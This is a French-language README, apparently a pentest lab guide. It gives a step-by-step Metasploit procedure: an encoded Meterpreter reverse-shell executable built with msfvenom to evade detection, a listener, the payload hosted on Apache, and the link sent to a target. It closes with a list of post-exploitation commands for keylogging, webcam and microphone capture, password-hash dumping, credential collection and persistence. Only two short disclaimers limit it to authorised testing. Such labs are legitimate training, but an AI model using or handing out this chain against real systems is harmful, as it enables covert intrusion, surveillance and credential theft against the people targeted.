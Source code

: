 ## Prérequis : 
**Windows xp : https://archive.org/details/WinXPSP2HomeEditionFrench**  Telecharger en Torrent ça va plus vite ! 
**Kali Linux : https://www.kali.org/get-kali/#kali-platforms**  
**VMware ou virtualBox**  

### Étape 1 : **Afficher les exploits disponibles dans Metasploit**
1. **Lancer Metasploit** :
   ```bash
   msfconsole
   ```

2. **Afficher la liste des exploits disponibles** :
   ```bash
   show exploits
   ```
   - Parcourez la liste et choisissez l'exploit souhaité. Pour un simple handler pour reverse shell, on utilise `exploit/multi/handler`.

### Étape 2 : **Créer le payload encodé avec `shikata_ga_nai`**
1. **Afficher les payloads disponibles avec `msfvenom`** :
   ```bash
   msfvenom --list payloads
   ```
   - Choisissez le payload approprié, par exemple `windows/meterpreter/reverse_tcp`.

2. **Créer le payload avec encodage** :
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<votre_IP> LPORT=<votre_port> -e x86/shikata_ga_nai -i 5 -f exe > payload_encoded.exe
   ```
   - **Explication des options** :
     - `-p windows/meterpreter/reverse_tcp` : Payload pour un reverse shell Meterpreter.
     - `LHOST` : Adresse IP de votre machine attaquante.
     - `LPORT` : Port d'écoute sur votre machine.
     - `-e x86/shikata_ga_nai` : Utilisation de l'encodeur `shikata_ga_nai`.
     - `-i 5` : Nombre d'itérations d'encodage pour augmenter l'obfuscation.
     - `-f exe` : Format du fichier de sortie.

### Étape 3 : **Configurer le listener dans Metasploit**
1. **Sélectionner l'exploit `multi/handler`** :
   ```bash
   use exploit/multi/handler
   ```

2. **Afficher les options disponibles pour l'exploit** :
   ```bash
   show options
   ```

3. **Configurer les options du payload** :
   ```bash
   set payload windows/meterpreter/reverse_tcp
   set LHOST <votre_IP>
   set LPORT <votre_port>
   show options
   ```
   - Vérifiez que toutes les options sont correctement configurées.

4. **Lancer l'exploit** :
   ```bash
   exploit
   ```

### Étape 4 : **Partager le payload via un serveur web**
1. **Copier le payload dans le répertoire du serveur web** :
   ```bash
   cp payload_encoded.exe /var/www/html/
   ```

2. **Vérifier le statut du serveur Apache** :
   ```bash
   service apache2 status
   ```
   - Si le serveur n'est pas démarré, utilisez :
     ```bash
     service apache2 start
     ```

3. **Vérifier l'accès au payload** :
   Accédez au lien suivant depuis un navigateur ou utilisez `curl` :
   ```bash
   curl http://<votre_IP>/payload_encoded.exe
   ```

### Étape 5 : **Partager le lien de téléchargement**
Envoyez le lien à la cible pour télécharger le payload :
```text
http://<votre_IP>/payload_encoded.exe
```

### Étape 6 : **Attendre l'exécution et capturer la session Meterpreter**
Une fois que le payload est exécuté sur la machine cible, la session `meterpreter` sera automatiquement ouverte dans Metasploit, permettant l'interaction avec la cible.

### **Note Importante** :
Cette procédure est réservée aux tests de pénétration éthiques et autorisés sur des systèmes pour lesquels vous avez obtenu la permission. Toute utilisation non autorisée est illégale et contraire à l'éthique.






Une fois que le payload a été installé et que la session `meterpreter` est ouverte sur la machine cible, voici une liste des commandes que vous pouvez utiliser dans Metasploit pour interagir avec la session :

### Commandes de base `meterpreter`
1. **`help`** : Affiche toutes les commandes disponibles.
2. **`sysinfo`** : Affiche les informations système de la machine cible.
3. **`getuid`** : Affiche l'utilisateur actuellement utilisé sur la machine cible.
4. **`getpid`** : Affiche le PID (Process ID) du processus `meterpreter`.
5. **`ps`** : Liste les processus en cours sur la machine cible.
6. **`shell`** : Ouvre un shell Windows sur la machine cible.
7. **`exit`** : Ferme la session `meterpreter`.

### Commandes de gestion de fichiers
1. **`ls`** : Liste les fichiers et dossiers du répertoire courant.
2. **`cd <chemin>`** : Change de répertoire.
3. **`pwd`** : Affiche le répertoire courant.
4. **`download <fichier>`** : Télécharge un fichier de la machine cible vers la machine attaquante.
5. **`upload <fichier>`** : Envoie un fichier de la machine attaquante vers la machine cible.
6. **`rm <fichier>`** : Supprime un fichier sur la machine cible.
7. **`mkdir <dossier>`** : Crée un nouveau dossier sur la machine cible.

### Commandes de gestion de processus
1. **`kill <PID>`** : Tue un processus spécifique sur la machine cible.
2. **`migrate <PID>`** : Migre le `meterpreter` vers un autre processus (utile pour la persistance).

### Commandes de contrôle de session
1. **`background`** : Met la session `meterpreter` en arrière-plan.
2. **`sessions`** : Liste toutes les sessions actives.
3. **`sessions -i <ID>`** : Interagit avec une session spécifique.

### Commandes réseau
1. **`portfwd add -l <port_local> -p <port_distant> -r <IP_cible>`** : Ajoute un port forwarding.
2. **`ifconfig`** : Affiche les interfaces réseau de la machine cible.
3. **`route`** : Gère et affiche les routes sur la machine cible.
4. **`arp`** : Affiche la table ARP de la machine cible.

### Commandes de capture et de surveillance
1. **`screenshot`** : Prend une capture d'écran de la machine cible.
2. **`webcam_list`** : Liste les webcams disponibles sur la machine cible.
3. **`webcam_snap`** : Prend une photo avec la webcam.
4. **`record_mic`** : Enregistre le micro pendant une durée définie.
5. **`keyscan_start`** : Démarre l'enregistrement des frappes de touches (keylogging).
6. **`keyscan_dump`** : Affiche les frappes enregistrées.
7. **`keyscan_stop`** : Arrête l'enregistrement des frappes.

### Commandes de persistance et d'exploitation avancée
1. **`run persistence -h`** : Affiche les options pour configurer la persistance sur la machine cible.
2. **`run getsystem`** : Tente de passer en tant qu'utilisateur `SYSTEM`.
3. **`hashdump`** : Extrait les hachages de mots de passe (nécessite des privilèges élevés).
4. **`run post/windows/gather/credentials/credentials_collector`** : Collecte les informations d'identification de la machine cible.

### Commandes de gestion de l'écran et de la webcam
1. **`webcam_stream`** : Diffuse un flux vidéo en direct de la webcam de la cible.
2. **`screenshare`** : Partage l'écran en temps réel.

### **Conseil de Sécurité**
Ces commandes doivent être utilisées dans le cadre de tests de pénétration éthiques, et uniquement avec l'autorisation explicite des propriétaires des systèmes ciblés. Toute utilisation non autorisée de ces techniques est illégale et contraire à l'éthique.
